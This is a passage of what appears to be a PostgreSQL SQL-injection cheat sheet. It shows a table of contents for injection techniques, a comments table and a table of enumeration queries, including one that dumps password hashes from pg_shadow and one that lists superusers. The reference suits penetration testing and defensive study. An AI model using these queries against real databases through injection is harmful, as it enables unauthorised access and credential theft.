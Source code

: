 # PostgreSQL Injection

> PostgreSQL SQL injection refers to a type of security vulnerability where attackers exploit improperly sanitized user input to execute unauthorized SQL commands within a PostgreSQL database.


## Summary

* [PostgreSQL Comments](#postgresql-comments)
* [PostgreSQL Enumeration](#postgresql-enumeration)
* [PostgreSQL Methodology](#postgresql-methodology)
* [PostgreSQL Error Based](#postgresql-error-based)
    * [PostgreSQL XML Helpers](#postgresql-xml-helpers)
* [PostgreSQL Blind](#postgresql-blind)
    * [PostgreSQL Blind With Substring Equivalent](#postgresql-blind-with-substring-equivalent)
* [PostgreSQL Time Based](#postgresql-time-based)
* [PostgreSQL Out of Band](#postgresql-out-of-band)
* [PostgreSQL Stacked Query](#postgresql-stacked-query)
* [PostgreSQL File Manipulation](#postgresql-file-manipulation)
    * [PostgreSQL File Read](#postgresql-file-read)
    * [PostgreSQL File Write](#postgresql-file-write)
* [PostgreSQL Command Execution](#postgresql-command-execution)
    * [Using COPY TO/FROM PROGRAM](#using-copy-tofrom-program)
    * [Using libc.so.6](#using-libcso6)
* [PostgreSQL WAF Bypass](#postgresql-waf-bypass)
    * [Alternative to Quotes](#alternative-to-quotes)
* [PostgreSQL Privileges](#postgresql-privileges)
    * [PostgreSQL List Privileges](#postgresql-list-privileges)
    * [PostgreSQL Superuser Role](#postgresql-superuser-role)
* [References](#references)


## PostgreSQL Comments

| Type                | Comment |
| ------------------- | ------- |
| Single-Line Comment | `--`    |
| Multi-Line Comment  | `/**/`  |


## PostgreSQL Enumeration

| Description            | SQL Query                               |
| ---------------------- | --------------------------------------- |
| DBMS version           | `SELECT version()`                      | 
| Database Name          | `SELECT CURRENT_DATABASE()`             |
| Database Schema        | `SELECT CURRENT_SCHEMA()`               |
| List PostgreSQL Users  | `SELECT usename FROM pg_user`           |
| List Password Hashes   | `SELECT usename, passwd FROM pg_shadow` |
| List DB Administrators | `SELECT usename FROM pg_user WHERE usesuper IS TRUE` |
| Current User           | `SELECT user;`                          |
| Current User           | `SELECT current_user;`                  |
| Current User           | `SELECT session_user;`                  |
| Current User           | `SELECT usename FROM pg_user;`          |